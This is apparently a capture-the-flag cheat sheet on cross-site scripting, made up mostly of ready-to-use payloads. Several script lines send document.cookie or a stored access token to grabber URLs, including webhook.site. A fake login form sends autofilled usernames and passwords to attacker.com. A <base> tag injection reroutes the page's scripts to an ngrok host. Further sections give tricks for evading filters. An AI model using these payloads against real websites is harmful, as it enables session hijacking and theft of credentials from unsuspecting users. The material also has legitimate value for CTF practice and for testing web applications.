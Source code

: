 # XSS (Cross-Site Scripting)
> XSS is a form of injection that enables attackers to inject client-side scripts into web pages viewed by other users.

## OG exploit (cookie grabbing / local storage)
By far the most common type of XSS. Involves loading an external link controlled by attacker with cookie appended as a query, may be a JWT, flag or some other secret.

```
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
<script>fetch('https://webhook.site?'+document.cookie)</script>
```

## Password autofill
We can exploit password managers that automatically fill in HTML input that match `username` and `password` types.

```
<form class="login-form" method="GET" action="/login"> 
	<input type="username" name="username" onchange="fetch('https://attacker.com?username='+this.value)">
	<input type="password" name="password" onchange="fetch('https://attacker.com?password='+this.value)"> 
</form>
```

## Filter evasion!!

### Bypass < & >
Using these special characters: `＜` and `＞` or other similar characters. If you're lucky, the backend will accidentally convert these to actual angle brackets

### Bypass blacklisted js functions
```js
eval('ale'+'rt(1)')
```

### Bypass tag blacklist (no `<script>`)
```
<script x>
<script x>alert(1)<script y>
```

```
<sCrIpt> alert(1) </sCrIpt>
```

### Using `<base>` to bypass tight `<script>` filter

```html
</h3> <base href="https://ngrok.io/abc">
```

This payload can be used provided that there are *existing* **relative** script tags on the page.  
What this does is to change the relative root url of the script tag, so the script tags are now pointing to an attacker controlled source.


## Input is being uppercased

In addition, you can also take advantage of this. Certain characters (like ß and ﬃ) count as a single character, but become multiple characters when uppercased (SS and FFI). This is useful in very limited contexts, such as when the length of the initial string is used to iterate through the modifed (uppercased) string later on. By spamming the special characters at the start, you can "push" your XSS payload back, so any filters in place doesn't detect/remove your payload. Refer to: [blazing fast](https://smitop.com/p/dctf22-blazingfast/) (TODO: find characters that do the same for lowercasing)

## Relevant tools
`/CTF/tools/Web/XSS/xssstrike`